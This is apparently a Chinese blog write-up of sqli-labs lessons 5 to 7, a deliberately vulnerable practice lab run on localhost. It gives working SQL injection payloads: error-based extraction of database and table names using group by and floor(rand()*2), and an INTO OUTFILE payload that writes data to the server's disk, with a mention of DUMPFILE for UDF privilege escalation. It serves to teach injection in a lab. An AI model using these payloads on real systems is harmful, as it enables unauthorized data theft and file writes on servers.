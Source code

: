 ```yaml
---
title: sqli labs lesson 5~7 学习
date: 2016-08-25 19:26:33
tags:
- 渗透测试
- SQL 注入
categories: SQL 注入
---
```

# 1 lesson 5：基于错误-单引号二次注入
## 1.1 测试
- 参数 $id = `1'`
- URL `http://localhost/sqli-labs-master/Less-5/?id=1%27`
- 错误 `You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1`
- sql 语句 `select * from tables where id = '$id' limit 0,1` ,参数在单引号内

![](http://ww4.sinaimg.cn/large/005CA6ZCgw1f7684wu1ogj3105034gmk.jpg)

## 1.2 union 查询
- 参数 $id = `' union select 1,2,3%23`
- URL `http://localhost/sqli-labs-master/Less-5/?id=%27%20union%20select%201,2,3%23`
- sql 语句：`select col1,col2,col3 from tables where id = '' union select 1,2,3%23' limit 0,1`

![](http://ww4.sinaimg.cn/large/005CA6ZCgw1f768d41k3hj30c903xmx8.jpg)
but.....   页面上并没有显示数据库结果的地方，即使通过 union 查询到了数据库表，字段信息，也无法显示在页面上。
因此，需要构造 <font color="red">一种语法正确（在编译时是正确的）而运行时会出错的sql查询语句，并且错误信息中包含数据局相关信息</font>。一些天才的研究人员发现，可以使用聚合函数 group by子句，并结合随机函数rand()，在运行过程中有可能出错。

## 1.3 构造编译正确，运行可能出错的sql
### 1.3.1 随机函数rand()
sql | 结果
-- | --
select rand() | 0~1 之间的随机值
select rang()*2 | 0~2 之间的随机值
select floor(rand()*2*) | 0 1 两个整数随机出现
select database() | 当前数据库
select concat((select database()),0x20,floor(rand()*2))a | {当前数据库}{空格}{0 1中的一个}
![](http://ww4.sinaimg.cn/large/005CA6ZCgw1f768u2z3a9j30b606wt8v.jpg)

### 1.3.2 group by
`select 1,count(*),concat((select database()),0x20,floor(rand()*2))a from information_schema.tables group by a`
![](http://ww1.sinaimg.cn/large/005CA6ZCgw1f768yvdsh6j30je077jrw.jpg)

重复执行多次，得到的 count(*) 不一样
![](http://ww1.sinaimg.cn/large/005CA6ZCgw1f7690aziijj30jd079gm8.jpg)

最终会出现如下错误：
![](http://ww3.sinaimg.cn/large/005CA6ZCgw1f76920orxwj30kc0a6dhf.jpg)

错误信息中会显示当前数据库名 information_schema

<font color="red">产生错误的原因：</font>
group by 语句报错的原因是 `floor(rand()*2)` 的不确定性，即结果可能为 0 也可能为 1。group by key 的原理是循环读取数据的每一行，将结果保存在临时表中，读取每一行的key时，如果key在于临时表中，则不更新临时表中的数据；如果该key不在于临时表中，则在临时表中插入key所在行的数据。
`group by floor(rand() * 2)`  出错的原因是key是个随机数，检测临时表中key是否存在时计算了一下 `floor(rand()*2)` 可能 为0，如果此时临时表只有key为1的行不存在key为0的行，那么数据库要将该条记录插入临时表，由于是随机数，插时又要计算一下随机值，此时 `floor(rand()*2)`结果可能为1，就会导致插入时冲突而报错。即检测时和插入时两次计算了随机数的值不一致，导致插入时与原本已存在的产生冲突的错误。

## 1.4 获取数据库信息
- 参数 $id = `' union select 1,count(*),concat((select database()),0x20,floor(rand()*2))a from information_schema.tables group by a%23`
- 网址  ` http://localhost/sqli-labs-master/Less-5/?id=%27%20union%20select%201,count(*),concat((select%20database()),0x20,floor(rand()*2))a%20from%20information_schema.tables%20group%20by%20a%23 `
- sql 语句：`select col1,col2,col3 from tables where id = '' union select 1,count(*),concat((select database()),0x20,floor(rand()*2))a from information_schema.tables group by a%23' limit 0,1`

![](http://ww4.sinaimg.cn/large/005CA6ZCgw1f769ox9w4ij30cb03x3yl.jpg)

刷新多次之后，出现如下错误：
![](http://ww2.sinaimg.cn/large/005CA6ZCgw1f769kss9wtj30cc03waa8.jpg)

<font color="red">将 database() 换成任何想获取的信息</font>
例如表名，则参数为
$id = `' union select 1,count(*),concat((select group_concat(distinct table_name) from information_schema.tables where table_schema = database()),0x20,floor(rand()*2))a from information_schema.tables group by a%23`
![](http://ww4.sinaimg.cn/large/005CA6ZCgw1f769qoh0xbj30h703xdg6.jpg)

其他信息获取方式参见 [sqli labs lesson 1~4 学习](http://huirong.github.io/2016/08/24/sqli-labs-series-part1-4/) lesson 1

# 2 lesson 6 基于错误-双引号二次注入
$id = `" union select 1,count(*),concat((select database()),0x20,floor(rand()*2))a from information_schema.tables group by a%23`

将单引号换成双引号，其他同上。

# 3 lesson 7 outfile 下载数据库
## outfile 函数
- select...into outfile 'file_name'形式的 select 可以把被选择的行写入一个文件中。该文件被创建到服务器主机上，因此你必须拥有FILE权限，才能使用此语法。
- 输出不能是一个已存在的文件。防止文件数据被篡改。
- 你需要有一个登陆服务器的账号来检索文件。否则 select...into outfile 不会起任何作用。 
- 在UNIX中，该文件被创建后是可读的，权限由MySQL服务器所拥有。这意味着，虽然你就可以读取该文件，但可能无法将其删除

![sql](http://ww3.sinaimg.cn/large/005CA6ZCjw1f76zlw41sbj30g7046t92.jpg)

![hello.txt](http://ww2.sinaimg.cn/large/005CA6ZCgw1f76zal94ldj30g604igml.jpg)
有可能会因为目录没有 file 权限，在文件夹中没有生成 TXT 文件，多试几个目录或文件夹。

若我们想把一个可执行2进制文件用into outfile函数导出，导出后就会被破坏，因为into outfile函数会在行末端写入新行，并且会会转义换行符这样的话这个2进制可执行文件就会被破坏。这时候我们用into dumpfile 就能导出一个完整能执行的2进制文件，into dumpfile 函数不对任何列或行进行终止，也不执行任何转义处理。在udf提权的时候用到的就是dumpfile。但是dumpfile 一次只能导出一行。

## 通过 outfile 获取数据库数据
$id = `1')) union select user(),database(),version() into outfile 'D:\7.txt'%23`

![](http://ww4.sinaimg.cn/large/005CA6ZCjw1f76zl5t95vj30g803o74f.jpg)

虽然页面上会显示错误，但是 D 盘会生成 7.txt 文件
![](http://ww1.sinaimg.cn/large/005CA6ZCgw1f76zj3s9suj30ga04bwez.jpg)

其他信息获取方式参见 [sqli labs lesson 1~4 学习](http://huirong.github.io/2016/08/24/sqli-labs-series-part1-4/) lesson 1

# 4 参考文献
[SQLI-LABS SERIES PART 6,7](http://dummy2dummies.blogspot.com/2012/06/sqli-lab-series-part-6.html)